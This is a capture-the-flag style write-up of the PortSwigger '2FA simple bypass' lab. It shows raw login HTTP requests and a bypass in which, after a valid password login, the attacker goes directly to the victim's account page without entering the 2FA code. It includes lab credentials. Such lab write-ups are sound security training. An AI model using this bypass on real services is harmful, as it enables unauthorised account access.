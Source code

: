 ```yaml
---
title: 2FA simple bypass
description: PortSwigger Authentication Lab
---
```

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials: `wiener:peter`
- Victim's credentials `carlos:montoya`

## Discovery
To complete the authentication the user have to enter a 4-digit security code sent to the user's inbox. ![](../../../../public/images/PS_Auth_20250613%20_181958.png)

### Auth Flow
1. Login with username & password : 
```http
POST /login HTTP/2
Host: 0ac0006a04c16c738008358a00400035.web-security-academy.net
Cookie: session=YuthgJRb79tsDDjpQs45LZfT2sKu4xWm
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0ac0006a04c16c738008358a00400035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac0006a04c16c738008358a00400035.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener&password=peter
```
2. If valid credentials user is redirected to 
```http
GET /login2 HTTP/2
Host: 0ac0006a04c16c738008358a00400035.web-security-academy.net
Cookie: session=YuthgJRb79tsDDjpQs45LZfT2sKu4xWm
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0ac0006a04c16c738008358a00400035.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac0006a04c16c738008358a00400035.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

If the user enter the correct 2FA code it will redirect to their account page:
`https://0ac0006a04c16c738008358a00400035.web-security-academy.net/my-account?id=wiener`

Instead of submitting the 2FA code, directly accessing the user account endpoint returns a 200 OK response, indicating that the authentication flow is broken and the server fails to enforce 2FA verification.

## Exploit
Login as carlos, after the credential is successfully validated navigate to `https://0ac0006a04c16c738008358a00400035.web-security-academy.net/my-account?id=carlos`

![](../../../../public/images/PS_Auth_20250613%20_183241.png)
